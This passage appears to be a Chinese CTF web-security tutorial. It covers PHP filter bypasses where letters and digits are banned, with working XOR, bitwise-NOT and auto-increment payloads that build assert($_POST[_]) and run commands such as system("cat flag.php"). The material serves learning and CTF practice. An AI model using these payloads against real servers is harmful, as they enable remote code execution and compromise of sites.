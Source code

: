 
#### 无字母数字绕过
&emsp;&emsp;上面那个只是过滤了一些特定字符，而这种不仅过掉了所有字母，还有数字。那该怎么办呢，还有符号呢！！！我们只需构造出新的变量就可以跑去那边shell了。统一构造`assert($_POST[])`。而不能使用的字符数字我们可以使用`URL 编码`绕过。<font color=black>注：针对php5版本，在学web的时候，要对版本很敏感，不同的版本有不同的特性和方法。</font>

##### 异或运算绕过
&emsp;&emsp;异或^就是两位对象转成二进制0和1相比较，既然异或可以，那么单独的或|和与&也是可以的，<font color=pink>相同为零，不同为1。</font>根据上面所说的，则有a:'%40'^'%21' ; s:'%7B'^'%08' ; s:'%7B'^'%08' ; e:'%7B'^'%1E' ; r:'%7E'^'%0C' ; t:'%7C'^'%08'; P:'%0D'^'%5D' ; O:'%0F'^'%40' ; S:'%0E'^'%5D' ; T:'%0B'^'%5F'  
&emsp;&emsp;拼接起来就为：
```
$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');$___=$$__;$_($___[_]); //assert($_POST[_]);
```
&emsp;&emsp; 然后POST那边就可以命令执行了，例如<font color=blue>_=system("cat flag.php")</font>

##### 取反绕过
&emsp;&emsp;取反~就是assert和_POST取反（废话），就不多说了，直接上payload
```
$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);
```
&emsp;&emsp;它还有一种方法，就是文字取反，感兴趣的可以去搜搜。它的payload有点长，可以先去本地试一下。
```
%24_%2B%2B%3B%24__%20%3D%20%22%E6%9E%81%22%3B%24___%20%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8C%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%9A%AE%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8D%81%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8B%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24____%20%3D%20'_'%3B%24__%20%3D%20%22%E5%AF%B8%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%B0%8F%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E6%AC%A0%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%AB%8B%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24_%20%3D%20%24%24____%3B%24___(%24_%5B_%5D)%3B
```

##### 自增绕过
&emsp;&emsp;原理就是, 嗯……，直接看其他师傅的吧：[无字母数字](https://www.cnblogs.com/pursue-security/p/15404150.html)，他那边的payload跟我的是一样，甚至前面还有源码和解释。
```
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B
```

### 结语
&emsp;&emsp;你已经划到这了，我就默认你看完了哈。恭喜你，已经学了很多知识了，当然还有更多的知识等着你，不知道你有没有看完另外两大知识点呢——>文件包含，文件上传。这三个统称为WEB三巨头，后面还有SQL，SSTI，反序列等知识期待你来学，别着急，慢慢来。 ( ੭ ˙ᗜ˙ )੭